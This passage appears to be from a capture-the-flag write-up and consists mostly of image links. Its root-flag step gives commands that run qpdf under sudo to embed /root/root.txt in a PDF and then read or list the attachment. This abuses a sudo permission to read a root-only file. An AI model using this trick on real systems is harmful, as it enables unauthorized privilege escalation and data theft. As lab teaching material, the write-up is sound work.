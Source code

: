![](./IMG/57.png)

![](./IMG/58.png)

![](./IMG/59.png)

> Root flag step 

1. attach file 
```
sudo /usr/bin/qpdf --empty --add-attachment /root/root.txt -- ./root.pdf
strings root.pdf
```
![](./IMG/61.png)

2. List attachment

```
sudo /usr/bin/qpdf --list-attachments root.pdf
```
![](./IMG/62.png)

